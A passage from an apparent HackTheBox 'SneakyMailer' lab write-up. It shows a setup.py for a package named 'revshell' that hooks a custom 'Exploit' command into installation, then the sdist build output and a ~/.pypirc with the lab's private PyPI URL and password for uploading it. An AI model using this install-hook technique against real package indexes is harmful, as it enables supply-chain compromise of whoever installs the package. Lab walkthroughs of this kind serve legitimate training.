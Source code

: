 ```python
setup(name='revshell',
      version='0.0.1',
      description='Reverse Shell',
      author='gian',
      author_email='gian',
      url='http://sneakycopy.htb',
      license='MIT',
      zip_safe=False,
      cmdclass={'install': Exploit})
```

It's time to create the packet with sdist:

```python
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer/revshell]
└─$ python3 setup.py sdist
running sdist
running egg_info
creating revshell.egg-info
writing revshell.egg-info/PKG-INFO
writing dependency_links to revshell.egg-info/dependency_links.txt
writing top-level names to revshell.egg-info/top_level.txt
writing manifest file 'revshell.egg-info/SOURCES.txt'
reading manifest file 'revshell.egg-info/SOURCES.txt'
writing manifest file 'revshell.egg-info/SOURCES.txt'
running check
creating revshell-0.0.1
creating revshell-0.0.1/revshell.egg-info
copying files to revshell-0.0.1...
copying README.md -> revshell-0.0.1
copying setup.cfg -> revshell-0.0.1
copying setup.py -> revshell-0.0.1
copying revshell.egg-info/PKG-INFO -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/SOURCES.txt -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/dependency_links.txt -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/not-zip-safe -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/top_level.txt -> revshell-0.0.1/revshell.egg-info
Writing revshell-0.0.1/setup.cfg
Creating tar archive
removing 'revshell-0.0.1' (and everything under it)
```

A `/dist` directory got created:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer/revshell]
└─$ ls -l dist
total 4
-rw-r--r-- 1 user user 1103 Sep 23 14:53 revshell-0.0.1.tar.gz
```

To package for a remote host, you need to create an additional file inside of your home directory:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer/revshell]
└─$ cat ~/.pypirc                                                                                                                                                                                            
[distutils]
index-servers =
  sneaky
[sneaky]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```
